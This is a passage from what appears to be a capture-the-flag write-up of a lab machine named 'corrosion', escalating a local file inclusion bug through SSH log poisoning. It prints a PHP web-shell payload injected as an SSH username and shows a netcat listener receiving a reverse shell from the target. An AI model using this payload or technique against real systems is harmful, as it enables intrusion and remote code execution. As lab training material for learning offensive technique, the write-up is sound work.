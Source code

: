 ```bash
```

I then tried to read the contents of `/var/log/auth.log` file and it worked. Awesome..So what next?

> _/var/log/auth. log – Contains system authorization information, including user logins and authentication machinsm that were used._

![image](https://user-images.githubusercontent.com/58165365/149883967-83cefbac-f655-4b23-b7b0-169e6a300ca4.png)

We can try log poisoning attack and see if it actually works.

> _Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability._

![image](https://user-images.githubusercontent.com/58165365/149884037-2e28d58c-aae5-4179-bfed-4d42b6da4a86.png)

If we try ssh as root or hackerman, we can see logs for the same

![image](https://user-images.githubusercontent.com/58165365/149884021-7c82ee90-cb7f-413a-9dc0-cc51627b85d8.png)

Writing invalidated user input to log files can allow an attacker to forge log entries or inject malicious content into the logs. In this case, we can try inject a php payload as the username and see if it will be rendered in the log files.

`ssh '<?php system($_GET["cmd"]); ?>'@192.168.56.151`

![image](https://user-images.githubusercontent.com/58165365/149884045-cdbdacc6-5ebc-4d89-a545-56deb6b550f9.png)

![image](https://user-images.githubusercontent.com/58165365/149884037-2e28d58c-aae5-4179-bfed-4d42b6da4a86.png)

This time round , we see the user is unknown. So the payload actually worked. We can try append the `cmd` parameter and test whether we can run the `id` command.

![image](https://user-images.githubusercontent.com/58165365/149884153-015beb74-eead-46aa-8ad4-08b8f33ad15f.png)

Awesome...Since it works, we can then slap in a bash-onliner and hopefully attain RCE. In my case, i had to url-encode it. (_You can do this on burp on online encoders_). I then started a netcat listener in the background.

![image](https://user-images.githubusercontent.com/58165365/149884140-79a2dfed-7783-4d5e-a20d-670029e71284.png)

```bash
➜  kali nc -lnvp 9999
listening on [any] 9999 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.151] 53690
bash: cannot set terminal process group (881): Inappropriate ioctl for device
bash: no job control in this shell
www-data@corrosion:/var/www/html/blog-post/archives$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@corrosion:/var/www/html/blog-post/archives$ uname -a
uname -a
Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@corrosion:/var/www/html/blog-post/archives$ cat /etc/passwd | grep home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
cups-pk-helper:x:114:121:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
```
